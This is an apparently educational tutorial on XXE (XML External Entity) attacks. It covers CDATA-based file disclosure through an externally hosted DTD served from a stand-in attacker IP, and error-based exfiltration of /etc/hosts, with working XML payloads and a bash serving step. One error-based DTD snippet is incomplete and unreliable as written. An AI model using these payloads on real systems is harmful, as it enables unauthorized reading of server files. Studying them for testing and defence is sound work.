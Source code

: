 # Advanced File Disclosure

Not all XML External Entity (XXE) vulnerabilities are easy to exploit. Some file formats may not be directly readable through basic XXE techniques, and in certain cases, web applications may not output any input values. In these scenarios, we can attempt to force output through error messages.

**Advanced Exfiltration with CDATA**

To extract data from various web application backends, we can use CDATA sections. By wrapping the content of an external file reference in a CDATA tag (e.g., `<![CDATA[ FILE_CONTENT ]]>`), we can bypass XML parsing restrictions, allowing us to include special characters and binary data.

**Example Code:**

```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

However, XML prevents joining internal and external entities directly. To overcome this, we can use XML Parameter Entities, which start with a `%` character and can be referenced externally.

**Revised Code:**

```xml
<!ENTITY joined "%begin;%file;%end;">
```

By hosting a DTD file (e.g., `xxe.dtd`) that contains this line and referencing it in the target web application, we can extract the desired file content.

**Advanced File Disclosure**

To implement this, we can create and host the DTD file:

```bash
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
python3 -m http.server 8000
```

Then, we reference the external entity in our XML request:

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA[">
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY % end "]]>">
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %xxe;
]>
<email>&joined;</email>
```

This allows us to retrieve the content of `submitDetails.php` without encoding it, making the process more efficient.

**Error-Based XXE**

In cases where the web application does not output any XML or errors, we can exploit runtime errors to extract information. If the application displays PHP errors without proper exception handling, we can manipulate the XML input to trigger these errors.

**Example of Triggering an Error:**

```xml
<roo> <!-- Malformed tag -->
```

This can reveal directory structures that we can use for further exploitation.

**Payload for Error-Based Exfiltration:**

```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

By hosting this DTD and referencing it in our XML request, we can extract file content through error messages.

**Final Code Example:**

```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

This method can also be adapted to read other files by changing the file path in the DTD script. However, it may be less reliable due to potential length limitations and special character issues.

#### Conclusion

These advanced techniques for exploiting XXE vulnerabilities can be powerful tools in a security professional's arsenal. Understanding how to manipulate XML parsing and error handling can lead to successful data exfiltration in scenarios where traditional methods fail. Always remember to test responsibly and ethically.
